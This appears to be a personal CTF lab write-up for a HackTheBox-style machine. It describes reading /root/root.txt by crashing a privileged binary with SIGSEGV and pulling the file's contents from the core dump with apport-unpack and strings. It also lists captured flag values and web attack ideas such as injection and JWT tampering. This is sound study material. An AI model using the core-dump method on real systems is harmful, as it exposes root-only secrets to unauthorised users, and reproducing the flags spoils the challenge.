 Looking into the code I found a part which seems to 'drop' privileges to disable us read access. Maybe if we can manipulate this somehow. 
![[Screenshot 2022-05-03 at 15.46.12.png]]
`setuid()` + `prctl()` both seems like interesting functions.
[prctl](https://man7.org/linux/man-pages/man2/prctl.2.html) --> _Note that careless use of some prctl() operations can confuse the user-space run-time environment, so these operations should be used with care._ I found an [ultra-specific article](https://useful.adindrabkin.com/hacker-mode/linux-privilege-escalation-checklist) on how it could be exploited!

## Method:
Set up 2 shell connections
In the first one do:
1. `./count` + insert _/root/root.txt_
2. `ctrl + z`
In the second connection do:
1. `ps -aux`
2. find the _./count_ PID + `kill -SIGSEGV [PID]`
`fg` the first connection --> this crashes the file and results in a coredump
`cd /var/crash`
`mkdir /tmp/coredump`
`apport-unpack _opt_count.1000.crash /tmp/coredump`
`strings /tmp/coredump/CoreDump` and it should be there!

# Flags
117984f2cad44970e6fffc19481ef914
4197e80228c2c209b58e52aeaac5cf7d
# Thoughts
- create new user on system _theadmin_ and try to get access --> did not work
- XSS, SQLi, External File path or name Control --> [A03:2021](https://owasp.org/Top10/A03_2021-Injection/)
	- stored procedures: look for `exec()` and `EXECUTE IMMEDIATELY`
- Host Mismatch, Improper Authentication, Session Fixation - session identifiers are used and appears to be reusable.. --> [A07:2021](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [OS Command Injection](https://portswigger.net/web-security/os-command-injection)
- SEARCH BAR! it has a ? in the URL:) **Wrong part of api but right track!**
# New Things Learnt
- `#` in a URL is just for going to a part of the page with the ID indicated after the symbol (maybe hiddem id's??)
- ? in a URL shows the end of loading a resource and the beginning of queries
- [JWT](https://trustfoundry.net/jwt-hacking-101/) 
- [JWT Tool]
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/web-api-pentesting
- remembering to look for hidden files
- crash files
- [apport-unpack](http://manpages.ubuntu.com/manpages/impish/man1/apport-unpack.1.html)

# useful writeup(s) for further understanding
https://infosecwriteups.com/secret-from-hackthebox-detailed-walkthrough-d256fb39a910
[this shows basically the same method](https://medium.com/system-weakness/htb-secret-walkthrough-f39f710a444) but by creating ssh key-pairs so they can maintain access